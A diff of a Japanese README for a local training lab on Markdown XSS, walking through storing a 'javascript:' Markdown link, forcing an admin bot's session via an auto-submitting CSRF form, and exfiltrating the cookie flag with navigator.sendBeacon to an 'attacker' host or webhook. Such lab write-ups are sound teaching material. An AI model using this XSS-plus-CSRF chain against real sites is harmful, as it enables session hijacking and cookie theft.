

Before and after one commit to kumama-nui/security-labs, a Markdown page: markdown-xss-cookie-lab/README.md, 2 parts joined by grey strips. Shown at 99% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/markdown-xss-cookie-lab/README.md
+++ b/markdown-xss-cookie-lab/README.md
@@ -38,15 +38,51 @@ http://localhost:4000/lab?webhook=<URLエンコードしたWebhook URL>
 flag=FLAG{local_markdown_xss_cookie_lab}
 ```
 
-## 手動解法
+## 詳細解法
 
-ブラウザだけで解く場合は、次の手順で攻撃チェーンを手で追えます。
+`http://localhost:4000/lab` は答え合わせ用の完成済み攻撃ページです。自分で考える場合は、次の順でチェーンを組み立てます。
 
-1. `docker compose up --build` で起動する
-2. `http://localhost:3000/report` を開く
-3. `url` に `http://localhost:4000/lab` を入力して送信する
-4. bot のレスポンスに `"foundLink":true` と `"clicked":true` が出るまで待つ
-5. `http://localhost:4000/loot` を開く
-6. `flag=FLAG{local_markdown_xss_cookie_lab}` が表示されれば成功
+### 1. 攻撃対象の状態保存を確認する
 
-`/lab` は、admin bot のブラウザで読み込まれる CSRF ページです。ページロード時に次の内容を `app` へ自動 POST します。
+`http://localhost:3000/help/search` を開くと、`query` と `greeting` を保存するフォームがあります。`greeting` は同じ疑似セッションの `/help/search` に、次の HTML の中で表示されます。
+
+```html
+<div class="assistant-message">
+  <!-- Markdown rendered greeting -->
+</div>
+```
+
+通常ユーザーとして、まず次のような Markdown を `greeting` に入れて保存します。
+
+```markdown
+[open](javascript:alert(1))
+```
+
+保存後のページでリンクが表示され、クリックすると `alert(1)` が実行されます。この時点で分かることは、HTML タグ直書きではなく Markdown リンクの URL として `javascript:` が通っている、という点です。
+
+### 2. admin bot のクリック条件を読む
+
+bot は `/report` から渡された allowlist 済み URL を開いた後、最終的に `app` の `/help/search` に到達すると、次のセレクタの最初のリンクをクリックします。
+
+```css
+.assistant-message a
+```
+
+つまり、admin bot のセッション内に `greeting=[open](javascript:...)` を保存できれば、bot のクリックで XSS が発火します。
+
+### 3. CSRF で admin 側の greeting を書き換える
+
+脆弱版では `/help/search` の POST に CSRF トークン検証がありません。そのため、attacker 側のページから admin bot に自動 POST させられます。
+
+bot は Docker 内部で動くため、CSRF フォームの送信先は `http://app:3000/help/search` です。フォームの形は次の通りです。
+
+```html
+<form method="post" action="http://app:3000/help/search">
+  <input type="hidden" name="query" value="test">
+  <input type="hidden" name="greeting" value="[open details](javascript:<payload>)">
+</form>
+<script>
+  document.forms[0].submit();
+</script>
+```
+
@@ -77,6 +169,14 @@ navigator.sendBeacon("http://attacker:4000/collect", JSON.stringify({ cookie: fl
 ```
 
-実際の `/lab` では、Markdown の括弧や引用符で壊れにくくするため、この JavaScript を Base64 にして `javascript:eval(atob("..."))` 形式で埋め込んでいます。送信先を外部 Webhook にしたい場合は、報告 URL を次の形にします。
+最後に `http://localhost:4000/loot` を開き、次が表示されれば解けています。
+
+```text
+flag=FLAG{local_markdown_xss_cookie_lab}
+```
+
+同一オリジン API 操作も確認する場合は、`http://localhost:3000/api/conversations/latest` を開きます。XSS 成立後は `attacker@example.test` が `subscribers` に追加されています。
+
+外部 Webhook に送る場合は、Webhook URL を URL エンコードして次の形式で報告します。
 
 ```text
 http://localhost:4000/lab?webhook=<URLエンコードしたWebhook URL>
````
Also changed, not shown: other parts of markdown-xss-cookie-lab/README.md (+75 -19 lines).
